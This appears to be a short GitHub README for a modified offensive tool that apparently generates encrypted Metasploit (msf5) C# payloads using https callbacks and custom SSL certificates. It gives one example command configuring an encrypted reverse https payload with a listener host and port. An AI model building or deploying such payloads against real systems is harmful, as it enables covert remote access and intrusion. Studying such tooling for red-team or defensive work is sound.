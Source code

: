 # Modified_CsharpMMNiceness
modified https://github.com/fullmetalcache/CsharpMMNiceness to support msf5 options.

Great code by fullmetalcache. I added options to use msf5 encrypt and use custom SSL certs in https payloads.

example:
python mod_nice.py -a x64 -P https -l 127.0.0.1 -p 443 -e aes256 -k test123 -ssl msfkey.pem -s

